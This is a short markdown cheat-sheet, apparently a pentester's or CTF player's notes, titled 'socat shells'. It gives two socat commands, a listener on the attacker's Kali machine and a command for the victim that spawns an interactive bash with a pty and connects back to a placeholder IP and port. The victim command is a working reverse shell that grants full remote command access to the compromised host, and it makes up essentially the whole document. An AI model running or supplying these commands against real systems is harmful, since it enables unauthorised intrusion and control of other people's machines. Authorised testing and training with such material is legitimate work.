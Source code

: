 # socat shells

```bash
# kali
socat FILE:`tty`,raw,echo=0 TCP-L:PORT 

# victim
socat EXEC:"bash -li",pty,stderr,sigint,setsid,sane TCP:IP:PORT
```
